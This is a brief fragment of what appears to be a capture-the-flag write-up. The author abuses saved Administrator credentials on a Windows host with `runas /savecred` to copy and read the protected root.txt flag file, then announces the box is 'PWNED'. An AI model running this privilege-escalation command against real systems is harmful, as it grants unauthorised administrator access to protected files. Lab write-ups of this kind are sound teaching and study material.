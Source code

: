 I found this command online but basically we are just reading that file we found.
I can't completely understand this but it seems like it have control over admin So I tried the following:

```
C:\Users\Public\Desktop>runas /user:Administrator /savecred "cmd.exe /c more C:\Users\Administrator\Desktop\root.txt > C:\Users\Public\Desktop\output.txt"

C:\Users\Public\Desktop>type output.txt
long-hash
```

Boom PWNED!!

